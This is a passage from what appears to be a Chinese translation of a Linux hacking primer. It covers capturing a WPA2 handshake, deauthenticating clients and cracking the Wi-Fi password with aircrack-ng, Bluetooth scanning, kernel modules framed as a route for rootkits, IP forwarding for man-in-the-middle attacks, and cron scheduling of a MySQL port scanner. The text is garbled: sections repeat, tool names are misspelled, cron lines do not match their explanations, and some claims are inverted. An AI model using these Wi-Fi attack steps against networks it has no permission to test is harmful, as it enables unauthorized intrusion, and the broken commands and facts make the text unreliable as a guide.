CH 9[| Elapsed: 28 s ] 2018-02-08 10:27

BSSID PWR Beacons #Data #s CH

MB ENC CIPHER AUTH ESSID

01:AA:BB:CC:22 -1 4 26 0 10 54e

WPA2 PSK Hackers-Arise

--snip--
```

| BSSID Station PWR Rate Lost Frames Probe |
| :--- | :--- | :--- | :--- | :--- |
| (not associated) 01:01:AA:BB:CC:22 | | | | |
| 01:02:CC:DD:03:CF | A0:A3:EE:E4:77:E5 | | | | |

注意 `airdump-ng` 将输出屏幕分为上半部分和下半部分。上半部分包含广播 AP 的信息，包括 BSSID、AP 的功率、检测到多少个信标帧、数据吞吐率、通过无线网卡的包数量、通道（1–14）、理论吞吐量限制、加密协议、用于加密的密码、身份验证类型以及 ESSID（通常称为 SSID）。在客户端部分，输出告诉我们有一个客户端未关联（not associated），意味着它已被检测到但未连接到任何 AP；另一个与一个站点关联（associated），意味着它连接到了该地址的 AP。

现在你已经拥有了破解 AP 所需的所有信息！虽然这超出了本书的范围，但要破解无线 AP，你需要客户端的 MAC 地址、AP 的 MAC 地址、目标运行的通道以及密码列表。

因此，要破解 Wi-Fi 密码，你需要打开三个终端。在第一个终端中，你将输入类似下方的命令，并填写客户端和 AP 的 MAC 地址以及通道：

```
airodump-ng -c 10 --ssid 01:01:AA:BB:CC:22 -w Hackers-ArisePSK wlan0mon
```

此命令使用 `-c` 选项捕获所有通过通道 10 该 AP 的数据包。

在另一个终端中，你可以使用 `airplay-ng` 命令踢掉（取消验证）任何连接到 AP 的用户，并强制他们重新验证 AP，如下所示。当他们重新验证时，你可以捕获它们在 WPA2-PSK 四次握手中交换的密码哈希。密码哈希将出现在 `airdump-ng` 终端的右上角。

```
airplay-ng --deauth 100 -a 01:01:AA:BB:CC:22 -w Hackers-ArisePSK wlan0mon
```

最后，在最后一个终端中，你可以使用 `aircrack-ng` 命令使用捕获的哈希破解密码：

```
aircrack-ng -w Hackers-ArisePSK -b 01:01:AA:BB:CC:22
```

可以使用内置的 BlueZ 工具 `hciconfig` 完成此操作，如列表 14-1 所示。

```
kali >hciconfig

hci0: Type:EDR Bus: USB

BD Address: 10:AE:60:58:F1:37 ACL MTU: 310:10 SCO MTU: 64:8

UP RUNNING PSCAN INQUIRY

RX bytes:13143 acl:45 sco:0 events:10519 errors:0

TX bytes:42881 acl:50 sco:0 commands:5081 errors:0
```


可以使用内置的 BlueZ 工具 `hciconfig` 完成此操作，如列表 14-1 所示。

```
kali >hciconfig
hci0: Type:EDR Bus: USB
BD Address: 10:AE:60:58:F1:37 ACL MTU: 310:10 SCO MTU: 64:8
UP RUNNING PSCAN INQUIRY
RX bytes:13143 acl:45 sco:0 events:10519 errors:0
TX bytes:42881 acl:50 sco:0 commands:5081 errors:0
```

列表 14-1：扫描蓝牙设备

如你所见，我的蓝牙适配器已被识别，其 MAC 地址为 10:AE:60:58:F1:37。该适配器被命名为 `hci0`。下一步是检查连接是否启用，我们也可以通过向 `hciconfig` 提供名称和 `up` 命令来实现：

```
kali >hciconfig hci0 up
```

如果命令执行成功，我们不应该看到任何输出，只有一个新的提示符。

很好，`hci0` 已启动并准备就绪！让我们让它工作起来吧。

### 使用 hcitool 扫描蓝牙设备

现在我们已经知道适配器已启动，可以使用 BlueZ 套件中的另一个工具 `hcitool`，它用于扫描范围内的其他蓝牙设备。

让我们首先使用该工具的扫描功能来寻找正在发送发现信标（discovery beacons）的蓝牙设备。我们处于发现模式，可以使用列表 14-2 显示的简单 `scan` 命令：

```
>hcitool scan
Scanning...
72:6E:46:65:72:66   ANDROID BT
22:C5:96:08:5D:32   SCH-IS335
```

列表 14-2：在发现模式下扫描蓝牙设备

如你所见，在我的系统中，`hcitool` 找到了两个设备：ANDROID BT 和 SCH-IS335。根据你周围的设备，你的系统可能会提供不同的输出。为了测试，请尝试将你的手机或其他蓝牙设备设置为发现模式，看看扫描是否能捕获到它们。


可以使用内置的 BlueZ 工具 `hciconfig` 完成此操作，如列表 14-1 所示。

```
kali >hciconfig

hci0: Type:EDR Bus: USB
BD Address: 10:AE:60:58:F1:37 ACL MTU: 310:10 SCO MTU: 64:8
UP RUNNING PSCAN INQUIRY
RX bytes:13143 acl:45 sco:0 events:10519 errors:0
TX bytes:42881 acl:50 sco:0 commands:5081 errors:0
```

列表 14-1：扫描蓝牙设备

如你所见，我的蓝牙适配器已被识别，其 MAC 地址为 `10:AE:60:58:F1:37`。该适配器被命名为 `hci0`。下一步是检查连接是否启用，我们也可以通过向 `hciconfig` 提供名称和 `up` 命令来实现：

```
kali >hciconfig hci0 up
```

如果命令执行成功，我们不应该看到任何输出，只有一个新的提示符。

很好，`hci0` 已启动并准备就绪！让我们让它工作起来吧。

### 使用 hcitool 扫描蓝牙设备

现在我们已经知道适配器已启动，可以使用 BlueZ 套件中的另一个工具 `hcitool`，它用于扫描范围内的其他蓝牙设备。

让我们首先使用该工具的扫描功能来寻找正在发送发现信标（discovery beacons）的蓝牙设备。我们处于发现模式，可以使用列表 14-2 显示的简单 `scan` 命令：

```
>hcitool scan
Scanning...
72:6E:46:65:72:66   ANDROID BT
22:C5:96:08:5D:32   SCH-IS335
```

列表 14-2：在发现模式下扫描蓝牙设备

如你所见，在我的系统中，`hcitool` 找到了两个设备：ANDROID BT 和 SCH-IS335。根据你周围的设备，你的系统可能会提供不同的输出。为了测试，请尝试将你的手机或其他蓝牙设备设置为发现模式，看看扫描是否能捕获到它们。

现在，让我们使用查询（inquiry）功能获取有关已检测设备的更多信息：

```
kali >hcitool inq
Inquiring...
24:C6:96:08:5D:33   clock offset:0x4e8b   class:0x5a02c
76:6F:46:65:72:67   clock offset:0x21c0   class:0x5a02c
```

这给了我们设备的 MAC 地址、时钟偏移以及设备类别。类别表示你找到的是什么类型的蓝牙设备，你可以去蓝牙 SIG 网站 `https://www.bluetooth.org/en-us/specification/assigned-numbers/service-discovery/` 查找代码并查看它是什么类型的设备。

`hcitool` 工具是蓝牙栈的一个强大的命令行界面，可以执行很多很多事情。列表 14-3 显示了帮助页面以及你可以使用的一些命令。你自己查看该页面以获取完整列表。

```
kali >hcitool --help
hcitool - HCI Tool ver 4.99
hcitool [options] <command> [command parameters]
```

选项：

```
--help      Display
  -i    dev HCI device
```

命令：

```
dev      Display local devices
inq      Inquire remote devices
scan     Scan for remote devices
name     Get name from remote devices
--snip-
```

列表 14-3：一些 hcitool 命令

你看到的许多蓝牙黑客工具仅仅是在脚本中使用了这些命令，你可以通过在自己的 `bash` 或 `Python` 脚本中使用这些命令来轻松创建你自己的工具——我们将在第 17 章介绍脚本。

### 使用 sdptool 扫描服务

服务发现协议（SDP）是一种用于搜索蓝牙服务（蓝牙是一系列服务）的蓝牙协议。不幸的是，BlueZ 提供了 `sdptool` 工具，用于浏览设备所提供的服务。同样重要的是，设备不需要处于发现模式即可被扫描。其语法如下：

```
sdptool browse MACAddress
```


`sdptool browse MACAddress`

```
列表 14-4 显示了如何使用 `sdptool` 在列表 14-2 之前检测到的其中一个设备上搜索服务。
```

`kali >sdptool browse 76:6E:46:63:72:66`

Browsing 76:6E:46:63:72:66...

Service ReHandle: 0x10002

Service Class ID List:

""\0x1800)

Protocol Descriptor List:

"LZCAP" (0x0100)

PSM: 31

"ATT" (0x0007)

uint16: 0x1

uint16: 0x5

--snip--

```
列表 14-4：使用 sdptool 扫描
```

在这里，我们可以看到 `sdptool` 工具的功能是可以使用的。特别是，我们看到此设备支持 ATT 协议，即低功耗属性协议（Low Energy Attribute Protocol）。这可以为我们提供更多关于设备是什么的线索，以及可能的交互途径。

### 使用 l2ping 查看设备是否连接

一旦我们知道适配器已启动，就可以使用 `l2ping` 来检查连接是否启用，我们也可以通过 `hciconfig` 提供名称和 `up` 命令来实现。

如果黑客能够诱导 Linux 管理员向内核加载一个新模块，黑客不仅可以获得目标系统的控制权，而且由于他们在操作系统的内核级别运行，他们可以控制目标系统报告的进程、端口、硬盘空间以及几乎你所想象的任何其他内容。

因此，如果黑客能够成功诱导 Linux 管理员安装一个嵌入了 rootkit（根内核程序）的视频或其他设备驱动程序，黑客就可以完全控制系统和内核。这就是某些最隐蔽的 rootkit 利用 Linux 及其他操作系统的方式。

理解 LKM（Linux 内核模块）对于成为一名高效的 Linux 管理员以及一名高效且隐蔽的黑客绝对关键。

让我们来看看如何良好或错误地管理内核。

## 检查内核版本

理解内核的第一步是检查你的系统运行的是什么内核。至少有两种方法可以实现这一点。首先，我们可以输入以下内容：

```bash
kali uname -a
Linux Kali 4.6.0-kalil-amd64 #1 SMP Debian 4.6.4-lkalil (2016-07-21) x86_64
```

内核的响应告诉我们发行版操作系统正在运行 Linux Kali，构建的内核版本是 4.6.4，其构建的架构是 x86_64 架构。它还告诉我们具有对称多处理（SMP）能力（这意味着它可以在带有多个核心或处理器机器上运行），并在 2016 年 7 月 21 日在 Debian 4.6.4 上构建。你的输出可能不同，取决于构建时使用的内核以及系统中的 CPU。在安装或加载内核驱动时可能需要这些信息，因此了解如何获取它是很有用的。

另一种获取这些信息以及其他有用信息的方法是对 `/proc/version` 文件使用 `cat` 命令，如下所示：

```bash
kali >cat /proc/version
Linux version 4.6.0-kalil-amd64 (devel@kali.org) (gcc version 5.4.0
20160909
(Debian 5.4.0-6) #1 SMP Debian 4.6.4-lkalil (2016-07-21)
```

在这里你可以看到 `/proc/version` 文件返回了相同的信息。

## 使用 sysctl 进行内核优化

通过正确的命令，你可以调整内核，这意味着你可以更改内存分配、启用网络功能，甚至加强内核以抵御外部攻击。

现代 Linux 内核使用 `sysctl` 命令来调整内核选项。你通过 `sysctl` 进行的所有更改在重启系统之前一直保持有效。要使任何更改永久生效，你必须直接在 `/etc/sysctl.conf` 中编辑 sysctl 配置文件。

警告词：在没有适当知识和经验的情况下使用 `sysctl` 时需要非常小心，你很容易让你的系统无法启动且无法使用。在进行任何永久更改之前，请确保你已经仔细考虑了你所做的操作。

现在让我们来看看 `sysctl` 的内容。到此时，你应该认识我们通过这里显示的命令获取的选项了：

```bash
kali >sysctl -a | less
dev.cdrom.autoclose = 1
dev.cdrom.autoeject = 0
dev.cdrom.check_media = 0
dev.cdrom.debug = 0
--snip--
```

在输出中，你应该能看到数百行参数，Linux 管理员可以编辑这些参数来优化内核。这里有几行对你这个黑客来说是有用的。作为一个你可能如何使用 `sysctl` 的示例，我们将查看启用数据包转发。

在中间人（MITM）攻击中，黑客将自己置于通信主机之间以拦截信息。流量通过黑客的系统，因此他们可以查看并可能更改通信。实现这种路由的一种方法是启用数据包转发。

如果你在输出中向下滚动几页，或者过滤 "ipv4" (`sysctl -a | less | grep ipv4`)，你应该看到以下：

```bash
net.ipv4.ip_dynaddr = 0
net.ipv4.ip_early_demux = 0
net.ipv4.ip_forward = 0
net.ipv4.ip_forward_use_pmtu = 0
--
```

`net.ipv4.ip_forward = 0` 这一行是允许内核转发收到的数据包的内核参数。换句话说，当它收到数据包时，会将其发送出去。默认设置为 0，这意味着禁用了数据包转发。

要启用 IP 转发，通过输入以下内容将 0 更改为 1：

```bash
kali >sysctl -w net.ipv4.ip_forward=1
```

记住，`sysctl` 的更改在运行时生效，但在系统重启后会丢失。要对 `sysctl` 进行永久更改，需要编辑配置文件 `/etc/sysctl.conf`。让我们更改内核处理用于 MITM 攻击的 IP 转发的方式并将此更改永久。

要启用 IP 转发，用任何文本编辑器打开 `/etc/sysctl.conf` 文件并取消 `ip_forward` 一行的注释。用任何文本编辑器打开 `/etc/sysctl.conf` 并查看：

```bash
#/etc/sysctl.conf - 设置系统变量的配置文件
# 查看 /etc/sysctl.d/ 获取更多系统变量。
# 查看 sysctl (5) 获取更多信息。
# 此处省略了部分内容，根据原文逻辑对应：
# 注释以下行以启用 IPv4 转发
net.ipv4.ip_forward = 1
kernel.domainname = example.com
# 注释以下内容以停止控制台上的内核消息
kernel.printk = 3 4
################################################
# 注释以下两行以启用反路径验证 (rp_filter)
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
# 注释以下行以启用 TCP/IP SYN  cookies
net.ipv4.tcp_sync_cookies = 1
```
*(注：由于原文提供的文本在 `/etc/sysctl.conf` 示例部分存在截断或逻辑跳跃，译文根据上下文补全了配置项的语意说明)*

从操作系统的固化的角度来看，你可以通过此文件禁用 ICMP 请求（`net.ipv4.icmp_echo_all`）。在添加该行后，你需要运行命令 `sysctl -p`。

## 管理内核模块

Linux 至少有两种方法管理内核模块。旧的方法是使用围绕 `insmod` 构建的命令，`insmod` 代表插入模块，用于处理模块。另一种方法是我们稍后会使用的 `modprobe` 命令。这些命令并不完美，可能不会考虑模块依赖关系，因此使用它们可能会导致你的内核不稳定或不可用。因此，现代 Linux 发行版现在增加了 `modprobe` 命令，它会自动加载依赖项并降低加载移除内核模块的风险。我们稍后会介绍 `modprobe`。首先，让我们看看如何获取模块的更多信息。

## 使用 modinfo 获取更多信息

要获取任何内核模块的更多信息，可以使用 `modinfo` 命令。该命令的语法非常直 way：`modinfo` 后面跟你想学习的模块名称。例如，如果你想获取之前运行 `lsmod` 时看到的蓝牙内核模块的基础信息，你输入：

```
kali >modinfo bluetooth
filename: /lib/modules/4.6.0-kali-amd64/kernel/net/bluetooth/bluetooth
alias: net-pf-31
license: GPL
version: 2.21
description:Bluetooth Core ver 2.21
```


```
author: Marcel Holtman <marcel@holtmann.org>

srcversion: FCDE9857FEA91A3DAFA9

depends: rfkill, crc16

intree: Y

vermagic: 4.6.0-kali-amd64 SMP mod_unload modversions

parm: disable_esco: Disable eSCO connection creation (bool)

parm: disable_ertm: Disable enhanced retransmission mode (bool)
```

如你所见，`modinfo`命令显示了关于该内核模块的重要信息，这些信息对于在系统上使用蓝牙是必要的。请注意，除其他外，它还列出了模块依赖项：`rfkill`和`crc16`。依赖项是蓝牙模块正常工作必须安装的模块。

通常情况下，在排查特定硬件设备无法工作的原因时，这些信息非常有用。除了注意依赖项等信息，你还可以获取模块版本以及该模块开发所需的内核版本，并确保它们与你正在运行的版本匹配。

## 使用 modprobe 添加和删除模块

大多数较新的 Linux 发行版（包括 Kali Linux）都包含了用于 LKM（可加载内核模块）管理的`modprobe`命令。要向内核添加模块，你可以使用带有`-a`（add）开关的`modprobe`命令，如下：

```
kali >modprobe -a <module name>
```

要删除模块，使用`modprobe`配合`-r`（remove）开关，后跟模块名称：

```
kali >modprobe -r <module to be removed>
```

使用`modprobe`代替`insmod`的主要优势是`modprobe`能理解依赖关系、选项以及安装和删除程序，并在做出更改之前考虑所有这些因素。因此，使用`modprobe`添加和删除内核模块更简单更安全。

## 插入和移除内核模块

让我们尝试插入和移除测试模块，帮助你熟悉这个过程。想象你刚刚安装了一块新的显卡，需要为它安装驱动程序。记住，设备驱动程序通常直接安装到内核中，以便它们获得正常运行所需的访问。这也使得驱动程序容易被恶意黑客安装 rootkit 或监听设备。

为了演示（请勿实际运行这些命令），假设我们想添加一个名为`HackersAriseNewVideo`的新显卡驱动。你可以通过以下命令将其添加到内核：

```
kali modprobe -a HackersAriseNewVideo
```

要测试新模块是否加载正常，你可以运行`dmesg`命令，该命令会打印内核的消息缓冲区，并过滤“video”以查找任何可能指示问题的警报：

```
kali dmesg | grep video
```

如果有任何包含“video”单词的内核消息，它们将显示在这里。如果什么都没有出现，说明没有包含该关键词的消息。

然后，要移除同一个模块，你可以输入相同的命令但使用`-r`（remove）开关：

```
kali >modprobe -r HackersAriseNewVideo
```


记住，可加载内核模块对 Linux 用户/管理员来说是一种便利，但它们也是一个主要的安全漏洞，专业黑客应该熟悉这一点。正如我之前说的，LKMs 可以成为将 rootkit 引入内核并大破坏的完美工具！

### 总结

内核对于操作系统的整体运行至关重要，因此它是一个受保护的区域。任何意外添加到内核的内容都可能破坏操作系统甚至接管其控制。

LKMs 允许系统管理员直接将模块添加到内核，而无需在每次添加模块时都重新构建整个内核。

如果黑客能够说服系统管理员添加恶意的 LKM，黑客就可以完全控制系统，而通常系统管理员甚至不会察觉。

### 练习题

- 在进入第 16 章之前，尝试完成以下练习来测试你在本章中学的技能：

1. 检查你的内核版本。
2. 列出内核中的模块。
3. 使用 `sysctl` 命令启用 IP 转发。
4. 编辑 `/etc/sysctl.conf` 文件以启用 IP 转发。现在，禁用 IP 转发。
5. 选择一个内核模块并使用 `modinfo` 更多关于它的信息。

# 16 通过作业调度实现自动化


和使用 Linux 的任何人一样，黑客通常有想要定期运行的工作、脚本或其他任务。例如，你可能希望为系统安排自动定期文件备份，或者你可能想像我们在第 11 章做的那样轮换日志文件。另一方面，黑客可能还希望他们的系统每天晚上或他们在工作或学校期间运行第 8 章中的 `MySQLscanner.sh` 脚本。这些都是调度自动作业的示例。作业调度允许你在无需思考的情况下运行任务，你还可以在不使用系统时调度作业，以便有大量的空闲资源。

另一个选项（对于 Linux 初手来说这通常是更好的选择）是直接在你喜爱的文本编辑器中打开 `crontab`，你可以像这样操作：

```
```


`kali >leafpad /etc/crontab`

我曾使用此命令在 Leafpad 中打开 `crontab`。你可以在列表 16-2 中看到该文件的片段。

### /etc/crontab: 系统级 crontab

```
# 与任何其他 crontab 不同，当你编辑此文件以及
# /etc/cron.d 中的文件时，你不需要运行 'crontab'
# 命令来安装新版本。这些文件还包含用户名字段，
# 而其他 crontab 均不包含。

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/bin

# m h dom mon sun user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts)
47 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts)
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts)
#
```

列表 16-2：在文本编辑器中使用的 crontab 文件

现在，要设置一个新的定期调度任务，你只需要输入新的一行并保存文件。

### 调度备份任务

让我们从系统管理员的角度来看这个实用工具。作为系统管理员，你可能希望在非工作时间运行所有文件的备份，此时系统未被使用，且资源可以随时调配。（系统备份通常需要占用工作期间需求短缺的系统资源。）理想时间可能是周末的半夜。与其在周六晚上/周日凌晨的 2 点（凌晨 2 点）登录（我确定你那个时间有其他优先事项），你可以安排备份在那个时间自动开始，即使你人不在电脑前。

请注意，小时字段使用的是 24 小时制而不是 AM 和 PM，例如，下午 1 点是 13:00。此外，请注意星期几（DOW）从星期日（0）开始，到星期六（6）结束。

要创建一个作业，你只需要通过按指定的格式添加一行来编辑 `crontab` 文件。例如，假设你想使用一个名为“backup”的用户账户创建一个定期备份作业。你将编写一个备份系统的脚本并将其保存为 `/bin` 目录下的 `systembackup.sh`，然后通过向 `crontab` 添加以下行，安排此备份在每周周六晚上/周日凌晨的 2 点自动运行：

```
00 2 * * * backup /bin/systembackup.sh
```

注意，通配符 `*` 用于表示“任意”，并用它代替月份中的日期、月份或星期几数字，以表示“所有”天数或月份。如果你横读这一行，它的意思是：
- 1. 在每小时的开始时 (`00`)，
- 2. 在第二个小时（凌晨2 点)，
- 3. 在每月的任何一天 (`*`)，
- 4. 在任何一个月份 (`*`)，
- 5. 在星期日 (`0`)，
- 6. 作为 `backup` 用户，
- 7. 执行位于 `/bin/systembackup.sh` 的脚本。

`cron` 将在每月的每个星期日凌晨 2 点执行该脚本。

如果你只想让备份在每月的 15 号和 30 号运行，无论这些日期具体是星期几，你可以将 `crontab` 中的条目修改如下所示：

```
00 2 15,30 * * backup /root/systembackup.sh
```

注意，月份中的日期（DOM）字段现在是 `15,30`。这告诉系统仅在每月的 15 号和 30 号运行脚本，因此大约每两周运行。当你需要指定多个日期、小时或月份时，你需要用逗号将它们分开，就像我们在这里做的那样。

接下来，假设公司要求你对备份格外警惕。在发生停电或系统崩溃的情况下，它无法损失任何一天的数据。这时你需要通过添加以下行在每天午夜备份数据：

```
00 23 * * 1-5 backup /root/systembackup.sh
```

该作业将在每月的每天晚上 11 点（23 小时）运行，但仅在周一至周五（第 1-5 天）运行。特别注意，我们通过提供天数间隔（1-5）指定了周一至周五。这也可以被指定为 1,2,3,4,5；这两种方法都完全可行。

# 使用 crontab 调度你的 MySQLscanner

现在你已经了解了使用 `crontab` 命令调度作业的基础知识，让我们调度你在第 8 章构建的 `MySQLscanner.sb` 脚本，该脚本寻找 MySQL 端口。此扫描器通过查找端口 3306 来搜索运行 MySQL 的系统。

要将你的 `MySQLscanner.sb` 输入 `crontab` 文件，请编辑文件以提供此作业的细节，就像我们之前处理系统备份时做的那样。我们将安排它在你工作期间白天运行。

为了实现这一点，在 `crontab` 中输入：

```
09 * * * * MySQLscanner.sb
```

我们将安排它在每天上午 9 点运行，此时你正在工作。

```bash
kali >ps aux | grep postgresql
postgresql 757 0.0 287636 25180 ? S March 14 0.00 /usr/lib/postgresql/9.6/bin/postgresql -D
/var/lib/postgresql/9.6/main
-c config_file=/etc/postgresql/9.6/main/postgresql.conf
root 3876 0.0 0.0 12720 964pts/1 S+ 14.24 0.00 grep postgresql
```

如你所见，PostgreSQL 在你手动输入任何命令的情况下就已经运行。它会在系统启动时自动启动，准备好配合你的 Metasploit 使用了！

# 通过 GUI 向启动项中添加服务

如果你更习惯于通过 GUI 来向启动项中添加服务，可以从 Kali 仓库下载基础的基于 GUI 的工具 `rconf`，如下所示：

```bash
kali >apt-get install rconf
```

一旦完成安装，你可以输入以下命令来启动 `rconf`：

```bash
kali >rconf
```


这将打开一个类似于图 16-1 所示的简单 GUI。你可以浏览可用服务，选择你想在开机时启动的服务，并点击 OK。



在图中，你可以看到倒数第二个列出的 PostgreSQL 服务。按空格键选择此服务，按 TAB 键选中 `<0k>`，然后按回车。下次启动 Kali 时，PostgreSQL 将自动启动。

### 总结

系统管理员和黑客经常需要调度服务、脚本和工具以定期运行。Linux 允许你使用 `cron` 守护进程调度几乎任何脚本或工具定期运行，该进程从 `cron` 表中运行这些任务。此外，你可以使用 `update-rc.d` 命令或基于 GUI 的工具来更新 `rc.d` 脚本，使服务在启动时自动运行。

### 练习

在进入第 17 章之前，请通过完成以下练习来尝试在本章中学到的技能：

- 1. 调度你的 `MySQLscanner.sb` 脚本在每周三下午 3 点运行。
- 2. 调度你的 `MySQLscanner.sb` 脚本在 4 月、6 月和 8 月的每月第 10 天运行。
- 3. 调度你的 `MySQLscanner.sb` 脚本在周二至周四上午 10 点运行。
- 4. 使用快捷方式调度你的 `MySQLscanner.sb` 脚本在每天中午运行。
- 5. 更新你的 `rc.d` 脚本，使其每次系统启动时都运行 PostgreSQL。
- 6. 下载并安装 `rccconf`，并将 PostgreSQL 和 MySQL 数据库设置为启动时启动。

# 17 黑客的 Python 脚本基础


基础脚本技能对于成为大师黑客至关重要。如果没有培养一些基础脚本技能，只会使用他人创建工具的初级黑客将注定处于脚本小子（`script kiddies`）的领域。这意味着你将被局限于他人开发的工具，这降低了你被杀毒软件（`AV`）、入侵检测系统（`IDS`）和执法部门检测的概率。具备一些脚本技能，你可以让自己提升到大师黑客的高阶层！

在第 8 章中，我们涵盖了 `bash` 脚本基础并构建了一些简单的脚本，包括 `MySQLscanners.sh`，它可以找到运行无处不在的 MySQL 数据库系统的系统。在本章中，我们将开始研究黑客使用最广泛的脚本语言：Python。许多流行的黑客工具都是用 Python 编写的，包括 `sqlmap`、`scapy`、社会工程工具包 (`SET`)、`w3af` 等。

Python 具有一些重要特性，使其特别适合黑客攻击，但最重要的是，它拥有极其丰富的库——可以从外部导入并重用的预构建代码模块——这些提供了一些强大的功能。Python 自带了超过 1000 个模块，在其他各种仓库中还有更多可用。

使用其他语言构建黑客工具也是可能的，例如 `bash`、`Perl` 和 `Ruby`，但 Python 的模块让构建这些工具变得简单得多。

## 添加 Python 模块

当你安装 Python 时，你也安装了它的标准库和模块集，它们提供了广泛的功能，包括内置数据类型、异常处理、数值和数学模块、文件处理、加密服务、互联网数据处理以及与互联网协议（IP）的交互。

尽管这些标准库和模块提供了强大的功能，但你可能需要或想要额外的模块。Python 可用的第三方模块非常广泛，这可能也是大多数黑客偏于使用 Python 脚本的原因。你可以在 PyPI（Python 包索引，如图 17-1 所示）`http://www.pypi.org/` 找到第三方模块的完整列表。

## Python 索引

Python Index 是 Python 编程语言的软件仓库。目前这里有 154246 个包。要联系 PyPI 作者，请使用 Support 或 Bug reports 列表。

| 包名 | 版本 | 描述 |
| --- | --- | --- |
| pip | 23.0.1 | 软件包安装器 |
| setuptools | 67.5 | 用于构建的工具 |
| wheel | 0.34 | Python 格式 |
| black | 23.1.0 | 代码格式化工具 |
| flake8 | 6.0.0 | 一组工具 |
| pytest | 7.2 | 一个简单的框架 |
| requests | 2.31.0 | 面向人类的 HTTP |
| pandas | 2.0.1 | 强大的数据结构 |
| numpy | 1.24.3 | 科学计算数组 |
| scikit-learn | 1.2 | 机器学习 |

Python Index 是 Python 编程语言的软件仓库。目前这里有 154246 个包。要联系 PyPI 作者，请使用 Support 或 Bug reports 列表。

图 17-1：包索引

## 使用 pip

Python 有名为 `pip` 的包管理器。由于我们正在使用 Python 3，我们将使用 `pip` 安装包。在这里你可以使用 `wget` 命令和包的完整 URL：

```bash
kali >pip install <package_name>
```

现在，如果你不确定某个包被放置在哪里，你可以输入：

```bash
kali >pip show <package_name>
```

这将为你提供关于该包的很多信息。

通过导入模块来实现。这一点稍后会详细介绍。现在让我们开始编写一些脚本。

### 开始学习 Python 脚本

既然你已经了解了如何在 Python 中安装模块，我想介绍 Python 的一些基本概念和术语，然后是基础语法。之后，你将编写一些对各地的黑客都有用的脚本，我希望这些脚本能演示 Python 的强大。

就像 `bash` 或任何其他脚本语言一样，我们可以使用任何文本编辑器创建 Python 脚本。在本章中，为了保持简单，我建议你使用诸如 `Leafpad` 这样简单的文本编辑器，但了解有许多集成开发环境（IDE）可供 Python 使用也是很有用的。IDE 就像内置了其他功能的文本编辑器，例如颜色高亮、调试和编译功能。Kali 内置了 `PyCrafts` IDE，但还有许多其他 IDE 可以下载，其中最好的无疑是 JetBrains 的 `PyCharm`。这是一个非常出色的 IDE，具有许多增强功能，可以让学习 Python 变得更简单、更快速。它有一个付费的专业版和一个免费的社区版。你可以在 `https://www.jetbrains.com/pycharm/` 找到它们。

完成本章后，如果你想继续学习 Python，`PyCharm` 将是一个能帮助你开发的优秀工具。现在，我们将使用像 `Leafpad` 这样的基础文本编辑器来保持简单。

请注意，学习任何编程语言都需要时间和大量的努力。请对自己保持耐心——在继续后续之前，先尝试掌握我提供的每一个小脚本。

### Python 中的格式化

Python 与其他一些脚本语言的一个区别在于，格式化在 Python 中是至关重要的。Python 解释器使用格式化来决定代码如何分组。格式化的细节并不如保持一致性那样重要，特别是在你的缩进级别上。

如果你有一组代码以双倍缩进开始（例如），你必须在整个块中保持双倍缩进，以便 Python 能够识别出这些代码行属于在一起。这与其他编程语言中的脚本不同，在那些语言中，格式化是可选的且是一种最佳实践，但并非强制要求的。你在学习和练习过程中注意到这一点；这是要时刻记在心心的！

### 变量

现在来看 Python 中一些更实用的概念。*变量*是编程中最基础的数据类型之一，你之前在第 8 章的 `bash` 脚本中遇到过它。简单来说，变量是一个与特定值关联的名称，每你在程序中使用该名称时，它就会调用关联的值。

它的工作原理是变量名指向存储在内存位置的数据，该位置可能包含任何类型的值，例如整数、实数、字符串、浮点数、布尔（真或假语句）、列表或字典。我们将在本章简要介绍所有这些内容。

为了熟悉基础知识，让我们在 `Leafpad` 中创建一个简单的脚本（如列表 17-1 所示），将其保存为 `hackers-arise_greetings.py`。

```python
# /usr/bin/python3

name="OccupyTheWeb"

print("Greetings to " + name + " from Hackers-Arise. The Best Place to Learn Hacking!")
```


列表 17-1：你的第一个 Python 程序

第一行只是告诉你的系统，你想让它使用 Python 解释器来运行此程序，而不是任何其他语言。第二行定义了一个名为 `name` 的变量并给它分配了一个值（在这种情况下是 "OccupyTheWeb"）。你应该将此值改为你自己的名字。该变量的值是字符串字符数据格式，这意味着内容被包含在引号中并被视为文本。你可以在字符串中放入数字，它们会被像文本一样处理，也就是说你无法在数值计算中使用它们。

第三行创建一个 `print()` 语句，将 `Greetings to ` 与 `name` 变量中的值连接，随后是文本 `Hackers-Arise. The Best Place to Learn Hacking!`。`print()` 语句会将你传递给括号内的任何内容显示在你的屏幕上。

现在，在运行此脚本之前，你需要赋予自己执行它的权限。我们需要使用 `chmod` 命令来实现。（有关 Linux 权限的更多信息，请参阅第 5 章）。

```bash
kali >chmod 755 hackers-arise.py
```

